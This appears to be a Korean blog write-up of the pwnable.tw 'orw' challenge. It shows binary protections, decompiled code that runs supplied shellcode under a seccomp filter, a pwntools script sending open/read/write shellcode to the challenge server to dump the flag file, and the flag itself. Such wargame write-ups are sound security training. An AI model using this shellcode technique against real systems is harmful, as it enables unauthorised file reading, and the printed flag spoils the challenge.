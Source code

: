 ```yaml
---
layout: post
title: "[pwnable.tw] orw"
comments : true
category : War Game
---
```


# 문제
***

orw 바이너리의 checksec 결과는 다음과 같다. 
```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX disabled
PIE:      No PIE
RWX:      Has RWX segments
```

file 명령어의 결과는 다음과 같다.
```
orw: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=e60ecccd9d01c8217387e8b77e9261a1f36b5030, not stripped
```

orw 바이너리 코드
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  orw_seccomp();
  printf("Give my your shellcode:");   // prctl(38, 1, 0, 0, 0); prctl(22, 2, &v1);
  read(0, &shellcode, 0xC8u);
  ((void (*)(void))shellcode)();
  return 0;
}
```

HITCON-Training lab2 문제와 비슷하게 orw_seccomp() 내에서 prctl 함수를 이용하여 사용 가능한 syscall을 제한한다. 
1. execve는 execve 호출 없이는 수행 할 수 없는 권한을 부여하지 않는다. (HITCON-Training lab2 write-up에서 이 부분 관련 내용 조금 틀린듯...)
2. 사용할 수 있는 syscall을 open, read, write로 제한한다. 

## exploit 방법
pwntools의 shellcraft를 이용해서 /home/orw/flag 파일을 open 하고 buffer에 read 한 뒤 화면에 write하는 어셈블리를 짠다.

# 풀이
***
```
#!/usr/bin/python

from pwn import *

#file_path="/home/sungyun/round3/orw/orw"
#p=process(file_path)

p=remote("chall.pwnable.tw", 10001)

p.recvuntil("shellcode:")

pay=pwnlib.shellcraft.open('/home/orw/flag')
pay+=pwnlib.shellcraft.read('eax','esp',0x100)
pay+=pwnlib.shellcraft.write(1,'esp',0x100)

exploit=asm(pay,arch='i386')

p.send(exploit)

print p.recvline()
```

flag : FLAG{sh3llc0ding_w1th_op3n_r34d_writ3}

